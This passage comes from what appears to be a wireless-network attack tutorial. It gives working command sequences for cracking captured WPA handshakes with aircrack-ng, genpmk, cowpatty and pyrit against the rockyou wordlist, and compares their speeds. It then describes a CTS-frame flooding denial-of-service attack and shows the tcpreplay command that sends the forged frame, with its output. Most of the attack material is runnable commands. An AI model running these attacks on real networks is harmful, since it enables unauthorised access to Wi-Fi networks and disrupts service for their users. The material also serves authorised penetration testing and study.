 Onced created we just need to use aircrack

```
aircrack-ng -r passwords-airolib_Capture-01.cap
```

We can see that the speed of cracking of `aircrack-ng` goes from 10k/s up to 200k/s.

**Genpmk + (Cowpatty or Pyrit)**

First we need to create a new dictionary.

```
genpmk -f /usr/share/wordlists/rockyou.txt -d dic.genpmk -s <SSID>
```

And crackit with Cowpatty:

```
cowpatty -d dic.genpmk -r Captura-01.cap -s <ESSID>  #Up to 360k/s
```

More faster? try with Pyrit:

```
pyrit -i dic.genpmk -e <ESSID> -r Captura-01.cap attack_cowpatty  #Up to 2M/s
```

You still want to go faster? Try pyrit with Database:

```
pyrit -i /usr/share/wordlists/rockyou.txt import_passwords
pyrit -e <ESSID> create_essid
pyrit batch

#Finally attack

pyrit -r Captura-01.cap attack_db  #Up to 20M/s
```

# DoS attacks

### CTS Frame Attack

The protocol 802.11 is CSMA CA, CA is Collision Avoidance, so in that protocol appear two new types of packets. CTS (Clear to Send) and RTS (Request to Send) that provides to the network the ability to avoid collisions between frames.

What happens if we flood the network with 1000 CTS frames with the time field on his maximum value (30.000 us), if we flood with that TCP stream we will hijack all the bandwidth causing a Denial of Service.

First we need to capture and modify one Clear-to-send frame and modify the Duration to 30.000 us and modify the RA address.

Onced created out evil frame we just need to send several times to the network.

```
tcpreplay --intf1=<IFACE> --topspeed --loop=10000 evilframe.pcap 2>/dev/null

Actual: 10000 packets (460000 bytes) sent in 3.01 seconds
Rated: 152428.1 Bps, 1.21 Mbps, 3313.65 pps
Statistics for network device: wlx00c0caaba818
        Successful packets:        10000
        Failed packets:            0
        Truncated packets:         0
        Retried packets (ENOBUFS): 0
        Retried packets (EAGAIN):  0
```
